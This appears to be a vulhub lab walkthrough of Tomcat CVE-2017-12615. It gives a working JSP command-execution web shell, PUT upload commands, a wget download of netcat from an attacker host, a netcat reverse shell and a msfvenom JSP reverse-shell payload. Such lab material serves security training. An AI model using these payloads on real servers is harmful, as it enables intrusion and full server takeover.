



# Tomcat Arbitrary File Write via HTTP PUT

**CVE-2017-12615**

## Vulnerability Reference

* **VulnHub Lab:**
  [https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615)

Apache Tomcat versions **7.0.0–7.0.79** are vulnerable when:

* `readonly=false` is set on the default servlet
* **HTTP PUT** is enabled

This allows **arbitrary file upload**, which can lead to **remote code execution (RCE)** by uploading a JSP web shell.

---

## Environment Setup (VulnHub Lab, Docker Machine(Debain))

Set up the vulnerable Tomcat instance using Docker:

```bash
cd /opt/vulhub/tomcat/CVE-2017-12615
```
```bash
docker compose build
```
```bash
docker compose up -d
```

---

## Verify the Service Is Listening

```bash
netstat -nltup
```

**Expected:**

* Tomcat listening on **8080**

http://192.168.1.20:8080/



```bash
dirsearch -u http://192.168.1.20:8080
```
---

## HTTP Methods Enumeration

### Using `Nmap`

**Enumerate allowed HTTP methods:**

```bash
nmap -v -Pn -sT -sV -p 8080 --script=http-methods.nse --script-args http-methods.url-path='/' 192.168.1.20
```

**Or without specifying a path:**

```bash
nmap -v -Pn -sT -sV -p 8080 --script=http-methods.nse 192.168.1.20
```

**Look for:**

```
PUT
DELETE
OPTIONS
```

---

### Using curl (OPTIONS request)

```bash
curl -v -X OPTIONS http://192.168.1.103:8080
```

If **PUT** is present, the server is likely exploitable.

---

## Public Exploit References

* **Exploit-DB #42966**
  [https://www.exploit-db.com/exploits/42966](https://www.exploit-db.com/exploits/42966)

* **Exploit-DB Direct Download**
  [https://www.exploit-db.com/download/42966](https://www.exploit-db.com/download/42966)

* **GitHub PoC**
  [https://github.com/breaktoprotect/CVE-2017-12615](https://github.com/breaktoprotect/CVE-2017-12615)

---

## Exploiting the Vulnerability (Python PoC)

**Run the exploit script:** https://www.exploit-db.com/exploits/42966

```bash
python 42966.py -u http://192.168.1.20:8080/ -pwn pwn
```

*This attempts to upload a JSP file and confirm write access.*

---

## JSP File Upload & Execution

### Create a Test JSP (`test.jsp`)

```jsp
<%
out.write("<html><body><h3>[+] JSP uploaded successfully via HTTP PUT.</h3></body></html>");
%>
```

---

### Upload via HTTP PUT

> ⚠️ **Important:** The trailing `/` is required for successful upload.

```bash
curl -X PUT http://192.168.1.20:8080/test.jsp/ -d @- < test.jsp
```

---

## Access the Uploaded JSP

```bash
curl http://192.168.1.20:8080/test.jsp
```

If rendered, file execution is confirmed.

---

## Remote Command Execution via JSP

```bash
vim cmd.jsp
```

```jsp
<%@ page import="java.util.*,java.io.*" %>
<html><body>
<h3>JSP Command Execution</h3>

<form method="POST">
  <input type="text" name="cmd">
  <input type="submit" value="Execute">
</form>

<pre>
<%
if (request.getParameter("cmd") != null) {
    String cmd = request.getParameter("cmd");
    out.println("Command: " + cmd + "\n");

    Process p;
    if (System.getProperty("os.name").toLowerCase().contains("win")) {
        p = Runtime.getRuntime().exec("cmd.exe /C " + cmd);
    } else {
        p = Runtime.getRuntime().exec(cmd);
    }

    BufferedReader br = new BufferedReader(
        new InputStreamReader(p.getInputStream())
    );

    String line;
    while ((line = br.readLine()) != null) {
        out.println(line);
    }
}
%>
</pre>
</body></html>
```

### Upload the JSP Shell

```bash
curl -X PUT http://192.168.1.20:8080/cmd.jsp/ -d @- < cmd.jsp
```


### Access the Web Shell on Browser

```text
http://192.168.1.20:8080/cmd.jsp
```

### Move to `nc` on the server

```bash
cd /opt/share/nc
```
```bash
ls -lh
total 1.7M
-rw-rw-r-- 1 root root 762K Feb  6 23:10 nc32
-rw-rw-r-- 1 root root 818K Feb  6 23:10 nc64
-rw-rw-r-- 1 root root  43K Feb  6 22:57 nc64.exe
-rw-rw-r-- 1 root root  36K Feb  6 22:57 nc.exe
```
### listener start in this location `/opt/share/nc`
```bash
python -m http.server 80
```


```bash
wget http://192.168.1.7/nc64 -O /tmp/nc64
```
```bash
ls -h /tmp
```

```bash
chmod +x /tmp/nc64
```

```bash
nc -lvnp 443
```

- Revershell (run on command search(Brownser))

```bash
/tmp/nc64 -e /bin/bash 192.168.1.7 443
```
- Now shell is taken


---

## Example Commands (via Web Shell)

```bash
cd /usr/share/webshells/jsp
```

```bash
curl -X PUT http://192.168.1.20:8080/cmdjsp.jsp/ -d @- < cmdjsp.jsp
```

```bash
curl -X PUT http://192.168.1.20:8080/jsp-reverse.jsp/ -d @- < jsp-reverse.jsp
```

```bash
ls -lha /tmp
```

```bash
wget http://192.168.1.7/nc64 -O /tmp/nc64
```

```bash
chmod +x /tmp/nc64
```

- Revershell (run on command search(Brownser))
```bash
/tmp/nc64 -e /bin/bash 192.168.1.7 443
```

---

## Reverse Shell via JSP (Metasploit)

### Generate JSP Reverse Shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.7 LPORT=443 -f raw > shell.jsp
```
- **Output**: Payload size: 1496 bytes

#### Upload the Shell

```bash
curl -X PUT http://192.168.1.20:8080/shell.jsp/ -d @- < shell.jsp
```

```bash
nc -lvnp 443
```
#### Trigger the Reverse Shell (on Browser)

```text
http://192.168.1.20:8080/shell.jsp
```

---

